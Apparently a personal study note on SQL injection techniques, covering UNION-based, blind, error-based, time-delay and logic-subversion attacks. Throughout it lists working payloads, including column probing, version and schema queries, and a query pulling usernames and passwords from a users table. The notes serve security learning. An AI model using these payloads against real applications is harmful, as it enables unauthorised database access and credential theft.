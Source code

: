 qw# Retrieving hidden data

simple attack -> `'+OR+1=1--`  [[OLD/WEB/vulnerabilities/SQL Injection/attack/payload#Retrieving hidden data#simple attack|example]]
# In-Band SQL injection 
## UNION attacks
##### concept:
<mark style="background: #FFB86CA6;">to retrieve data from other tables</mark> ->
- The individual queries must return the **same number of columns**.
- The **data types** in each column must be compatible between the individual queries.
### 1) number of columns required
- use `ORDER BY` -> `' ORDER BY [number]--` until you hit an error
- use `UNION SELECT` -> `' UNION SELECT NULL,NULL[...]--` -> until additional row in the result set (it is possible to get erros like `NullPointerException` or even same response as without null ) 
**Note**: On _Oracle_ databases, every `SELECT` statement must specify a table to select -> use `from dual`
### 2) Finding columns with a useful data type

- interesting data type = normally string type -> `UNION SELECT` 
```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```
`Conversion failed when converting the varchar value 'a' to data type int.` -> probably not suitable 

### 3) retrieve interesting data
- for example username and password from a table called users:
`' UNION SELECT username, password FROM users--`
#### multiple values within a single column
- use String Concatenation (different databases use different syntax) [[cheatsheet(portswigger)#String concatenation|see cheatsheet]]
	- example: `||` ->  `' UNION SELECT username || '~' || password FROM users--`  
### Examining the database

- database type and version [[OLD/WEB/vulnerabilities/SQL Injection/attack/payload#Examining the database|examples]]
	- _Microsoft, MySQL_ -> `SELECT @@version`
	- _PostgreSQL_ -> `SELECT version()`
	- _Oracle_ -> `SELECT * FROM v$version`
### Listing the contents 

- _Oracle_ [[OLD/WEB/vulnerabilities/SQL Injection/attack/payload#Listing the contents|examples]]
  - `all_tables`
  - `all_tab_columns`
- _all other databases_ -> `information_schema` 
  - `information_schema.tables`
  - `information_schema.columns`

# Inferential(Blind) SQL injection
##### concept:
-> when HTTP responses <mark style="background: #ADCCFFA6;">do not contain</mark> the *results of the relevant SQL query* or the *details of any database errors*.
### triggering conditional responses

1) the application does *behave differently(in response)* when faces with true/false conditional statement (example: `'1'='1` / `'1'='2`) in:
	- Parameters 
	- Cookies
	- HTTP Headers
2) determine the length of data you want to retrive using *`LENGTH`* 
3) use: 
	- Oracle: *`SUBSTR`*
	- non-Oracle: *`SUBSTRING`* [[OLD/WEB/vulnerabilities/SQL Injection/attack/payload#triggering conditional responses|example]]
## Error-based

### triggering conditional errors
- injecting different boolean conditions makes no difference to the application's responses -> *raise an error* by *injecting a condition query* -> use *`CASE`* keyword [[OLD/WEB/vulnerabilities/SQL Injection/attack/payload#triggering conditional errors|examples]]
### verbose SQL error messages

- verbose error -> find out about *context* -> easier to construct a valid query:
> `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`

- generate an error message that *contains some of the data* that is returned by the query -> turns blind into visible -> use *`CAST()`* keyword: [[OLD/WEB/vulnerabilities/SQL Injection/attack/payload#verbose SQL error messages|example]]
>`CAST((SELECT example_column FROM example_table) AS int)`
>-> `ERROR: invalid input syntax for type integer: "Example data"`
## triggering time delays

 - application catches database errors and handles them -> *delay* in *execution* of the SQL *query* [[OLD/WEB/vulnerabilities/SQL Injection/attack/payload#triggering time delays|examples]]
look for syntax in different databases -> [[cheatsheet(portswigger)#Time delays|Here]]

## out-of-band (OAST) techniques
#todo 

# Subverting application logic

simple attack -> `'--` [[OLD/WEB/vulnerabilities/SQL Injection/attack/payload#Subverting application logic#simple attack|example]]
# Second-order SQL injection 
#todo 


